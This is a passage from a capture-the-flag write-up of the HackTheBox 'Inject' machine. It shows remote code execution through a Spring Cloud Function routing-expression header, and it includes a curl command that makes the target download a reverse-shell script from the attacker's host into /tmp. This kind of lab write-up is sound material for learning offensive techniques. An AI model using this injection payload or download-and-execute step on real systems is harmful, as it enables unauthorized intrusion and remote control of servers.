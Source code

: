 
We are attempting to have the machine make a request to our web server using the "curl" command.

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/12.png?raw=true)


We observe that the victim machine is making a GET request to our Python-based HTTP server. This indicates that we have successfully achieved remote command execution. Now, the next step is to send a reverse shell. We will proceed to create a file that contains the one-liner bash command to initiate the reverse shell.

![](https://github.com/ElSwix/HTB-WriteUPS/blob/main/EN/Machines/Easy/Inject/img/13.png?raw=true)
 
Now we will instruct the server to copy our `pwned.sh` file and save it in the `/tmp` directory. Subsequently, we will execute it to receive the shell.

```
elswix@parrot > curl -X POST  http://10.129.35.222:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl 10.10.16.42/pwned.sh -o /tmp/pwned.sh")' --data-raw 'data' -v
```


